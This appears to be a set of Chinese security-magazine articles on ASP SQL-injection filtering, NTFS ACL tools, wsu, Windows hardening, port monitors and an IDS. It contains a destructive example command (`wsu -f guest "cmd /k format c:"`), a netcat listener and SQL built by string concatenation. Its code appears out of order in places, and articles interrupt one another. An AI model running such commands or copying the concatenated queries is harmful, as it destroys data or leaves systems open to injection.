将这段代码放在文件前面就可以检查提交的变量 ID 了。从理论上说，对用户提交的变量只能是字母和数字，所以程序要尽可能多地过滤一些非法字符，如单引号、双引号、分号、空格、<> 等。

经过以上修改，对于源代码并不公开的约稿奇兵来说，基本上已经安全了。想要在瞎子摸象的状况下再实施更有效的攻击，难度已经相当大了。当然，如果你能得到源代码再进行深入分析，就得另当别论了。

关于 index.php 中记录 LOG 文件可能存在 XSS 漏洞，我们只要稍加过滤就可以让这个漏洞不被利用。我们修改 index.php 的代码如下：

```php
将 $info_array[2] = get_user_lang();
替换成 $info_array[2] = htmlspecialchars(get_user_lang());

将 $info_array[3] = get_user_referer();
替换成 $info_array[3] = htmlspecialchars(get_user_referer());

将 $info_array[4] = get_user_os();
替换成 $info_array[4] = htmlspecialchars(get_user_os());

将 $info_array[5] = get_user_browser();
替换成 $info_array[5] = htmlspecialchars(get_user_browser());
```

经过以上修改，我们可以让 ReleaseEasy2 不再像以往那样遭遇这些令人害怕的潜在危险。只要我们及时发现了不足，并想方设法去改正它，这样我们才会不断地进步。

本文是一个长期编写 ASP 程序的职业人士所写，提供的思路非常值得大家借鉴，相信本文一定会给你带来意想不到的惊喜！

- **难度等级**：中
- **前置知识**：ASP 程序开发，SQL 注入攻击



## 问题之我所见

文 / Lilo（小骗子）

SQL Injection 漏洞最近比较猖獗，有的网站只注意到自身主机、系统的安全性，忽视了程序的安全性。其实这几点同样非常重要。如果程序存在漏洞，即使你的主机是堡垒主机，也难免遭到不测。

首先我们先要了解 SQL Injection 在什么情况下才会发生。通常 SQL Injection 是程序员在编写 ASP 或其他语言时，直接将变量在未经过滤和检测的情况下引入到了 SQL 语句中。这样，攻击者只要了解你的程序语句、数据库结构，就可以轻易写出带有破坏性或其他目的的 SQL 语句来。

笔者作为一个 ASP 程序员，在这个问题上也花过一些功夫，详细了解了攻击者如何实现 SQL Injection。后来经过综合现行攻击方法，写了两个函数来防止这个问题，希望能和大家一起讨论。

mix 朋友的文章很不错，但是他只是过滤了两种情况，那样还是很不安全。我的注入检测函数如下：

```asp
If Instr(TSNum, "'") Or Instr(TSNum, "--") Or Instr(TSNum, "%") ... Then
    InSQL="True"
    Exit Function
End If

If Instr(TSNum, "*") Or Instr(TSNum, "/") Or Instr(TSNum, "\\") ... Then
    InSQL="True"
    Exit Function
End If

If iSNum=1 Then
    If IsNumeric(TSNum)=False Then
        InSQL="True"
        Exit Function
    End If
End If

If ISNol=0 And CStr(TSNum)="" Then
    InSQL="Null"
    Exit Function
End If

InSQL="False"
End Function
```

```asp
<%
' 防范 SQL 注入漏洞函数
' TSNum 是要进行过滤的 Request 数据
' iSNum 为该数据类型，0 为字符串，1 为数值型
' ISNol 是否允许空值，0 不允许 TSNum 为空，1 允许

Function InSQL(TSNum,iSNum,ISNol)
...
```

这个函数过滤得比较严格，将逗号、单引号、百分号、分号等情况都进行了严格过滤。

## 使用方法

```asp
<%
Dim SQLStatus
SQLStatus=InSQL(Request("sID"),1,0)
IF SQLStatus="True" Then
    Response.Write "发现注入问题"
    Response.End
End If
%>
```

上述程序应该在 ASP 文件头部就执行。做了上述过滤后，再继续下面的辅助过滤。还需要注意的是，一个数据记录 ID 存在性、重复性测试。这个函数是当攻击者提交的数据合法，但访问的是不存在的记录时的检测函数。程序如下：

```asp
<%
'记录存在性、重复性检测。
'其中的 iValue 必须先经过上述 InSQL 函数过滤没问题后才能直接引用。
' iTable 为表名
' iField 为查询的字段名
' iValue 为所查询字段的值
' iType 为要查询字段值的类型
' WhereItem 为 SQL 语句中额外的条件语句
' iConn 为 Conn.asp 的相对路径
Function CheckNull(iTable,iField,iValue,iType,WhereItem,iConn)
    ChnSQL=ModeSQL(iTable,iField,iValue,iType,WhereItem)
    Call Include(iConn)
    Set ChnRS=Server.CreateObject("ADODB.Recordset")
    ChnRS.Open ChnSQL,Conn,3,3
    If ChnRS.BOF Then
        CheckNull="False"
    Else
        CheckNull="True"
    End If
    ChnRS.Close
    Set ChnRS=Nothing
    Conn.Close
    Set Conn=Nothing
End Function
%>
```

使用方法：

```asp
<%
Dim IDStatus
IDStatus=CheckNull("Talk","ID",Request("sID"),"NUMBER","","Conn/Conn.asp")
%>
```

当然，此处的 `Request("sID")` 是在上述 InSQL 的注入检测之后，所以可以直接引用了，其中牵涉到另外的 2 个函数。

## 1．构造 SQL 语句函数

```asp
<%
'构建 SQL 语句
'各参数同上
Function ModeSQL(iTable,iField,iValue,iType,WhereItem)
    Select Case(UCase(iType))
        Case "STRING","1"
            ChnSQL="SELECT * FROM " & iTable & " Where " & iField & "='" & iValue & "'"
        Case "NUMBER","2"
            ChnSQL="SELECT * FROM " & iTable & " Where " & iField & "=" & iValue
        Case "3"
            If iValue="1" Then
                ChnSQL="SELECT * FROM " & iTable & " Where " & iField & "=" & True
            End If
            If iValue="0" Then
                ChnSQL="SELECT * FROM " & iTable & " Where " & iField & "=" & False
            End If
        Case "DATE","4"   'ACCESS 数据库的日期
            ChnSQL="SELECT * FROM " & iTable & " Where " & iField & "=#" & iValue & "#"
        Case "SDATE","5"  'SQL 数据库的日期
            ChnSQL="SELECT * FROM " & iTable & " Where " & iField & "='" & iValue & "'"
    End Select
    If WhereItem<>"" Then ChnSQL=ChnSQL & " " & WhereItem
    ModeSQL=ChnSQL
End Function
%>
```

以上函数用来解决 Include 无法使用变量文件名问题。上述 CheckNull 函数使用到这 2 个函数，所以就顺便把它们写出来了。

在使用时，InSQL 函数和 CheckNull 函数是有先后顺序的，否则就起不到过滤的作用了。例如如下：

## 2．动态 Include 包含函数

```asp
<%
'动态 Include 函数
'需要主机支持 FSO
Function Include(filename)
    Dim re,content,f,FSO,t,aspStart,aspEnd
    Set FSO=CreateObject("Scripting.FileSystemObject")
    Set f=FSO.OpenTextFile(Server.MapPath(filename))
    content=f.ReadAll
    f.Close
    Set f=Nothing
    Set FSO=Nothing   '上面将要包含的文件读取出来

    Set re=New RegExp
    re.Pattern="\^\s="
    aspEnd=1
    aspStart=InStr(aspEnd,content,"<%")+2
    Do While aspStart>aspEnd+1
        Response.Write Mid(content,aspEnd,aspStart-aspEnd-2)
        aspEnd=InStr(aspStart,content,"%>")+2
        Execute(re.Replace(Mid(content,aspStart,aspEnd-aspStart-2),"Response.Write "))
        aspStart=InStr(aspEnd,content,"<%")+2
    Loop
    Response.Write Mid(content,aspEnd)
    Set re=Nothing
End Function
%>
```

```asp
<%
Dim IDStatus,SQLStatus
SQLStatus=InSQL(Request("SID"),1,0)
If SQLStatus="True" Then
    Response.Write "发现注入问题。"
    Response.End
End If

IDStatus=CheckNull("ReTalk","mp",Request("SID"),"NUMBER","","Conn/Conn.asp")
If IDStatus="False" Then
    Response.Write "没有发现指定记录。"
    Response.End
End If
%>
```

另外，在编写 ASP 程序时要注意的就是密码验证问题。我的解决方法很简单：用上述 InSQL 函数对提交的 Username 进行检测，如果不存在注入问题，就放入 SQL 语句中调用，然后比较密码，再就是合理使用 Session 来判断用户是否登录。这点就不多说了。

好了，关于防止注入攻击就说到这里，大家有问题或者更好的想法可以到黑防论坛上进行讨论，我们一起进行研究。

系统管理工具加强的 Windows ACL/ACE 管理工具，功能和 cacls 与 xcacls 类似，但是更强大。支持远程主机管理，支持 NTFS 文件/目录/注册表键和系统对象的权限访问控制列表的读取、设置和改变。利用这个工具可以更好地给系统作安全加固，避免了传统的修改注册表的方式。



## 系统管理工具的妙用

文 / 朱平

现在大多数的 Windows 系统服务器都已经使用了 NTFS 文件格式，也只有使用 NTFS，Windows 系统的安全性和可管理性才能真正得到保障。NTFS 的磁盘配额、用户权限、个人文件加密以及网络应用方面的优势才能发挥得淋漓尽致。所谓 NTFS，即 NT File System（NT 文件系统），这是 Windows NT/2000 所采用的独特文件系统结构，是建立在保护文件和目录数据基础上，同时照顾节省存储资源、减少磁盘占用率的一种先进的文件系统。在 NTFS 的分区上，每个文件或者文件夹都可以单独地分配一个许可，这个许可使得这些资源具备更高级别的安全性。用户无论是在本机还是通过远程网络访问设有 NTFS 许可的资源，都必须具备访问这些资源的权限，这就大大增强了文件及系统的安全性，当然前提是正确合理的配置管理。相反，错误马虎的管理却是系统安全致命的要害。

针对如何正确管理 NTFS 文件系统的问题，笔者向大家推荐这款 NTFS 管理工具 SuperCACLS。SuperCACLS 是一款命令行下管理 Windows NT/2000 文件访问控制表的工具，它的主要功能：

- 显示、设置、移动、改名、转换 ACL 权限
- 本地、远程操作
- 管理文件访问控制表（ACL）
- 设置信息
- 工作于 NTFS 文件或文件夹及注册表
- 可设定搜索功能
- 使用特权丢弃
- 建立修复文件

从文件名看像是 Windows 系统自带工具 CACLS.exe 的加强版（Cacls.exe：命令行实用程序，用于显示或修改文件访问控制表，即对目录或文件的安全信息进行设置）。够煽情了，闲话少说，本文以 Win2k Server 系统环境为例，结合实例具体说明 SuperCACLS 的使用。

### 下载

最新版本：SuperCACLS.3.52  
下载地址：  
http://www.xren.net/down/show.asp?id=1653

### 安装

程序的安装很简单，点击下载来的 SetupSCACLS.exe 安装文件，弹出“Installation Code”窗口，提示输入激活代码。程序做得很完善，加了使用密码保护，避免其他人非法操作。我们按照提示输入示范密码：demo，如图 1 所示。继续安装点击 Continue 按钮，出现程序说明，建议认真阅读，这里让你对程序有个初步认识。



图1 输入 activation code

完后点击“Next”按钮进行下一步操作，来到选择安装目录，默认安装到：`C:/Program Files/SuperCACLS` 目录下，你可以自行选择。选择目录完毕后继续按“Next”按钮，来到“Installation Options（安装选项）”窗口，选项一提示增加帮助文件到开始目录，选项二提示增加程序目录到 PATH 变量中，这样以后在 DOS 下就不必到指定目录执行命令了。



图2 安装选项

选项三提示拷贝命令文件到 `C:\WINNT` 目录下。我想已经指定了 PATH 变量，就不需要再拷贝命令文件到 `C:\WINNT` 目录下了吧？如图 2 所示。接着只要一路点击“Next”按钮就能完成程序的安装。安装完后会在开始菜单中增加 SuperCACLS 的帮助文件，同时在 `C:/Program Files/SuperCACLS` 目录下生成 5 个 DOS 应用程序：

- PRACL.exe（"PRint ACL"）：打印文件的 ACL 信息；
- REACL.exe（"Replace ACL"）：设置改变文件的 ACL 信息；
- MODACL.exe（"MODify ACL"）：改变 ACL 信息中的指定内容；
- TAKEOWN.exe（"TAKE OWNership"）：取得文件的所有权；
- ACLRESTORE.exe：恢复文件属性，针对前面使用了 PRACL /bck 选项。

### 使用

这才是大家最关心的问题。笔者测试了一个下午，也只弄懂了九牛一毛，但已领略其强大的功能。以上 5 个程序都是其特有的功能和作用，笔者写出的只是其测试过的基本使用及功能，因而非常不完全，只能给大家做个参考，更多功能还希望大家亲自动手实践挖掘。获得帮助文件可在程序后加参数“/?”。开始前我们先来说说文件访问控制表（ACL），在命令行（开始-->运行-->CMD.EXE）下输入“PRACL /t 文件名”即可得到文件的 ACL 信息，如图 3 所示：


图3 显示 test.exe 文件的 ACL 信息

上图显示文件 test.exe 的所有者为 KUIN\Administrator，Administrators 组可以完全控制，SYSTEM 组拥有读、写、删等所有权限，其中 Full 选项还可分为 RXWDPO 等单项。以下就是我们针对具体例子所做的功能说明：

- 1. 注册表、Audit SACLs & 远程主机
- 2. 选择 & 预定你的“目标”
- 3. 设置 ACL

```text
PRACL /h Fireball /t \\Fireball\C$\WINNT
```

说明：显示远程主机 Fireball 的 C$\WINNT 目录下的文件访问控制表信息。

```text
PRACL /aud /reg /h Softball /t HKLM\Software
```

说明：显示远程主机 Softball 的注册表 HKLM\Software 的 Audit SACL。

```text
PRACL /t myfile.txt somefile.txt mydirectory
PRACL /reg /s HKLM\Software\Microsoft
```

说明：显示文件 myfile.txt 和 somefile.txt 及文件夹 mydirectory 的 ACL 信息。注：支持“*”和“?”标志的模糊查询。  
说明：显示注册表键 HKLM\Software\Microsoft 下所有程序的 ACL 信息。

```text
REACL /t File_1.txt /a Everyone:read Administrators:full "Server Operators:change"
```

说明：设置文件 File_1.txt 的 ACL 为 Everyone 只读，Administrators 完全控制，Server Operators……

## Windows 2000 的保护神 —— Stimulant 系统漏洞修复程序

文 / 独行者

Stimulant 系统漏洞修复程序可以方便地修复系统中的漏洞，复杂设置也能较容易完成。程序分为系统漏洞修复、安全限制、系统优化三项，并提供注释提示，适合新手使用。

首先打开“系统漏洞修复”（图1），即可修复 Win2000 系统默认共享漏洞，同时可抵抗一定强度的 DoS 攻击。


图1

在“安全限制”中包含常见漏洞或未安全配置服务，这些是网络入侵中常见利用点。

可以用 Stimulant 禁止相关服务，例如 Telnet、Remote Registry Service、Messenger、TCP/IP NetBIOS Helper Service 等，以减少远程开启、注册表远程操作、消息骚扰和用户名探测风险。将相关项全部选中（图2）后优化即可。


图2

经过这些优化，Windows 2000 系统基本可达到较安全状态。对不熟悉逐项配置服务的用户而言，操作便捷，点击几次即可完成漏洞修复。

```text
REACL /t DocDir /a Everyone:RWXD//

MODACL /t myfile.txt /de TRSYS\VJones /ap Everyone:WXD

TAKEOWN /t *.txt
```

说明：设置文件夹 DocDir 为 Everyone 拥有 R（读）、W（写）、X（执行）、D（删除）权限；Modify ACLs 时只修改部分 ACL。示例中删除 TRSYS\VJones 权限并为 Everyone 增加 W/X/D；还可获取文件所有权。以上为程序简单应用，更多功能需在实践中掌握。

### 后记

- NTFS 分区默认会给 Everyone 组 Full Control，导致本机登录用户权限过大，应先移除该权限。
- 对应用程序文件夹，除管理员组外，应为用户组分配至少 Read 权限。
- 对数据文件夹，应移除 Everyone 的 Full Control，分配管理员组权限，并为用户组配置 Add&Read；Creator Owner 可保留 Full Control。


Wsu 在 Windows 2000/XP/2003 平台下，以其他用户身份或其他进程的上下文创建新的进程。因此，你可以用 Wsu 来以系统权限或者另外一个账号（不论你是否知道他的密码，也不需要他有程序在运行）来执行程序。只要你是系统管理员。我不喜欢在自己的计算机上用 at 和 runas，而这个工具恰好可以代替它们，其实比它们更好用。At.exe（系统身份）需要 schedule 服务，而 runas.exe（其他用户）需要 seclogon 服务才能运行。既然我们是系统管理员，为什么要依赖 schedule 和 seclogon 这两个服务才行。

## 系统管理工具的又一选择

文 / Snowfox

在 Windows 的系统安全技术准则中，有一条想必大家都已经耳熟能详了吧——以最小、最适当的权限运行最需要运行的程序，从而避免可以避免的本地溢出使用户非法提升权限。显而易见，这样做是安全的、可靠的。然而，一个安全操作的同时，往往就意味着自己使用的自由又进一步受到了约束。对于任何一个负责的管理员来说，这都是一件不能两全其美的事。通常情况下，系统自带的 runas.exe 这个工具提供了我们用其他身份运行程序的自由。然而实际中，很多管理员并不喜欢用这个命令，要知道，运行它系统必须开放 seclogon 服务。

前不久，在几个国内比较大的安全类 BBS 中看到了 bingle 设计的 wsu 这个工具。通过简单的使用后发现这个东西还是不错的，现介绍给各位朋友。

### 介绍

Wsu 是一个以其他用户身份或进程身份创建新的进程为主要功能的小程序，适用于 Windows NT4/2000/XP/2003 等平台，下载及官方网站：http://www.binglesite.net/，程序作者的联系方式：bingle@email.com.cn。

您可以以其他用户身份或其他进程的上下文创建新的进程，而不论你是否知道他的密码，也不需要他有程序在运行。当然了，有个前提，您必须是系统的管理员。如何？方便吧，请跟我来，一起了解更具体的用法。

### 实例

进入控制台，运行 wsu（图1），可以查看程序的用法。

### 示例1：删除系统默认账号

大家都知道，默认情况下，Windows 2000 等系统是不允许我们删除系统默认的账号的，也由于这点特性，给我带来了很多不必要的潜在危险，删除它们一直是广大系统安全爱好者的心愿。那么大家知道不知道，当我们取得 system 权限后，就有能力删除这些平时 administrator 权限所不能删除的系统默认账号了呢？

使用 wsu regedit 命令以 system 权限打开注册表……


图1

表编辑器（图2）。找到 Guest 键，直接删除即可，是不是很简单（图3）。这个方法就是利用 wsu 可以直接使用 SYSTEM 执行任意程序的特性进行的。

## 示例2：使用被禁用账号

一般情况下，在管理员设置了禁止使用某个账号后，账号没有激活前，是不能使用这个 ID 来进行任何操作的，而有时又需要测试那个账号的部分权限。这时，我们就又可以使用 wsu 了。

```bash
wsu -f guest "cmd /k format c:"
```

使用 `wsu -f guest "cmd /k format c:"` 命令，测试 guest。注意：此时 guest 用户已被禁止使用（图4、图5）。这个方法就是利用了 wsu 可以直接使用其他任何账号（包括被禁止使用的账号）执行任意程序而无须密码的特性进行测试的。

### 其他

当然，wsu 还有很多其他的功能，在这里就不一一详细介绍了，还是留给大家亲自去体验吧。关于其他选项的说明：

- 1. `-o`：缺省情况下，新程序在新的窗口中运行。如果你在 telnet 终端使用 wsu，你可能希望新程序在你的终端运行，这时你可以使用 `-o`，这样新程序就和 wsu 在同一窗口运行（当然新程序必须是 console 程序才行）。
- 2. `-i`：缺省情况下，wsu 运行的程序和 wsu 一样；如果你是在交互登录使用 wsu，那么新程序也是交互的。而如果你在 telnet 终端运行 wsu，那么新程序就不是和桌面交互的，这时你可以使用 `-i` 选项强制新程序以桌面交互方式运行。另一个用途是在 Windows 2000 服务器/高级服务器下，一个普通用户（非管理员）是不能交互登录的，即使你给了该用户本地登录的权限也不行。如果你是作为管理员交互登录（登录到本地或者使用终端服务），而且想以一个普通用户的权限来运行程序，新程序会初始化失败，而你使用 `-i` 就会成功。
- 3. `COMMAND`：要运行的程序命令行必须是最后一个参数，如果有空格用 `""` 包含程序和参数。


图2


图3


图4


图5

## 安全配置和分析

## 图解教程


文／网络游侠

“安全配置和分析”是 Windows 2000 中用来分析和配置本地系统安全性的一个工具，可以通过图形化操作轻松完成系统安全配置。这就是说，即使你是一个和我一样的新手，也可以应用一些现成的模板来完成配置安全服务器的任务。

下面就让我们看一下“安全配置和分析”的实现吧：

- 1. 在“开始→运行”中敲上“MMC”，回车，就调出了控制台的界面。然后，点击“控制台→添加／删除管理单元”，如图1所示。


- 2. 接下来，系统就会提示你输入你要添加的管理模块了，我们要添加的是“安全配置和管理”，确认该选项被选择，然后点击下面的“添加”，然后关闭该对话框，如图2所示。
- 3. 关闭之后在“控制台根节点”下面就会出现“安全配置和分析”，右键点击它，然后选择“打开数据库”，并选择需要打开的安全数据库文件，如图3所示。


- 4. 接下来，你就会看到如图4所示的界面了。证明我们刚才的安全数据库读取成功。


- 5. 现在我们需要一个做好安全配置的模板，然后修改一下使用。所以，我们要在“安全配置和管理”的右键菜单中选择“导入模板”，此时你就会看到 Windows 2000 中内置的一些安全模板。双击就可以导入，如图5所示。


- 6. 导入模板之后，就是对比计算机的现在设置和模板中定义的不同了。选择右键菜单中的“立即分析计算机”，如图6所示。
- 7. 我们的爱机会出现下面的提示，正在比较现在设置和模板设置的不同，并列出比较的选项，如图7所示。


- 8. 成功了吧？你可以用手中的小老鼠点开控制台左边的内容看一看（我们以“本地策略-安全选项”为例）。右边详细内容中，签名带有绿色“√”的表示你爱机的设置和我们刚才导入模板的设置基本一致；带有红色“×”的表示和基本配置有差异，需要我们做进一步配置，如图8所示。
- 9. 我们看一下不同选项的不同定义方法。右键点击“重命名来宾账户”选择“安全性”，出现窗口。在“在数据库中定义这个策略”前面打上一个“√”，然后在下面写上你要重命名的名字，然后确定。需要指出的是，下面的那句“这个设置只影响数据库，它不改变当前计算机的设置”，表明现在修改的只是安全数据库的内容，但是要等到数据库被指派之后才真正生效。确定之后，你会发现在窗口中的 Guest 已经改成了 youxia。但是，在配置这些设置之前计算机的来宾账号依然是 Guest，如图9所示。


- 10. 打开一个“数据库设置”中是“已启用”的选项，你可以选择“已停用”来停掉这个策略。如果把“在数据库中定义这个策略”前面的“√”去掉，那么就可以在数据库策略中去掉这个选项。点击“确定”之后，“数据库设置”中就会变成“没有定义”，如图10所示。


- 11. 在“未签名驱动程序的安装操作”安全性对话框中，我们可以指定要定义的策略。这里有 3 个选项：默认继续、允许安装但发出警告、禁止安装。如果选择了第 3 个，可以最大限度地增加服务器的稳定和安全系数……如图11所示。


- 12. 打开“允许弹出可移动 NTFS 媒体”的安全性对话框，可以在下拉菜单中确定哪个用户可以使用该权限，可以根据自己的需要定义，如图12所示。


- 13. 设置“在密码到期前提示用户更改密码”选项，要配合用户设置的密码到期时限来定义。注意如果选择了 14 天，那么在密码过期前 14 天会提示修改密码，如图13所示。


- 14. 如果把计算机设置改成与导入模板相同或近似，详细信息中前面的红色“×”会变成绿色“√”。把需要修改的地方改完后，在控制台根节点下面“安全配置和分析”的右键菜单中选择“立即配置计算机”，如图14所示。


- 15. 系统就会按照刚才的配置在计算机上设置，如图15所示。


- 16. 如果对系统完成的操作不放心，可以右键单击“安全配置和分析”，然后选择“查看日志”，就会看到哪些设置成功完成、哪些失败。若失败，可根据提示排除故障后重新配置，如图16所示。


大家在上网的时候，常常想了解本地端口的使用情况，但用 netstat 命令又觉得麻烦，而且提供的信息不够详尽，那么试试 Antiy Port 这款工具吧！它是一款绿色软件，而且功能强大，对于端口的使用情况更是一目了然。

## 让你“心知肚明”

文／朱平


## —— Antiy Port 的使用

大家或许听过 Antiy Ghostbusters，大名鼎鼎的“捉鬼队”，一个专业级别的特洛伊木马检测和系统安全工具，不仅能清除已知木马，也能发现部分未知木马。自带应用程序网络访问管理功能，让用户可以设置应用程序的网络访问规则，切断未知木马的通讯。Antiy Port 为其同胞兄弟，同样处于 http://www.antiy.net，虽然名声还没有老大 Antiy Ghostbusters 大，但其特有的功能还是不能小瞧。软件很小，才 200 多 KB，绿色软件，无须安装。软件运行界面如图 1 所示。


图1

从图 1，大家可以看出到本机所开的 TCP 和 UDP 协议端口及其所属 Process。这样你就能轻易发现可疑的木马程序进程及其在本机监听的端口。当然，你也可以用它来管理系统进程及对外服务等，是不是觉得很方便？

现在，我们就来模拟一次 Antiy Port 是如何发现可疑端口及其所属程序的。不用替我担心，我不会用木马在自己的电脑上实验的。我们用 NC（netcat.exe），大家听过、用过吧，锋利的“瑞士军刀”。我们首先利用 NC（c:\nc.exe）在本地监听一端口，我们选择 1414 端口吧，运行命令：`nc -l -p 1414`。

这样，NC 就在本机 1414 端口上监听着，等待外部连接。现在，我们运行 Antiy Port，显示结果如图 2 所示。


图2

从图 2 大家可以发现，Local Port 处增加了 1414，所属 Process 为：C:\nc.exe。这样，我们就监测到运行 NC 所监听的端口及其所属 Process。是不是很简单？比你扫描快多了吧？

顺带再介绍一款相关工具——Fport.exe，DOS 界面下的“Antiy Port”，产自 FoundStone，功能和 Antiy Port 很相似，能列出系统中所有打开的 TCP/IP 和 UDP 端口，以及它们对应应用程序的完整路径、PID 标识、进程名称等信息。


图3

来看看一个运行实例图示，如图 3 所示。其实，在 DOS 下运行 `netstat an`，也能达到查看本机所监听端口的目的，不过其并没有列出所属运行程序。

IDS（入侵检测系统）对于关心网络安全防护的人们来说已不再是一个陌生的名词，在许多行业的计算机网络安全防御工程中，除了采用防病毒、防火墙或认证加密等系统外，有近 15% 的安全项目会涉及到 IDS 系统，而且这些项目一般都对安全等级的要求非常高，对数据信息的保密性也有特别的要求。当然，人们关注 IDS 的重要性时会更加关注它的使用价值，本文就介绍一个单机版入侵检测系统——Nuzzler Intrusion Detection。

## 单机版入侵检测系统


## 图文攻略

文／梁振江

在网络安全领域，随着黑客应用技术的不断“傻瓜化”和“泛滥化”，只要稍微对计算机操作系统和网络有些研究的人都能使用黑客软件，利用 Windows 操作系统的漏洞来入侵他人的计算机。因此，入侵检测系统 IDS 的地位正在逐渐提高。入侵检测系统不但广泛应用于大中小型企业网络，而且连一般的小型局域网或者小区宽带网中也需要入侵检测系统来保卫计算机的安全。除了杀毒软件和防火墙，很多人已经感觉到，一个网络或接入互联网、局域网的计算机，只有有效实施了 IDS，才能敏锐地察觉攻击者的侵犯行为，才能防患于未然！本文着重介绍一款优秀的单机版入侵检测系统 Nuzzler Intrusion Detection 概念、使用方法及策略等方面内容，希望以此使得个人计算机用户和管理者更快和更好地使用 IDS 保护自身计算机和网络的安全。

Nuzzler Intrusion Detection（NID）由著名的网络安全软件公司 Securepoint 开发，在其主页 http://www.securepoint.cc 上能够下载的是 Nuzzler Intrusion Detection 基本版。NID 作为全功能的单机版入侵检测系统，主要用于用户家用计算机和小型服务器主机。

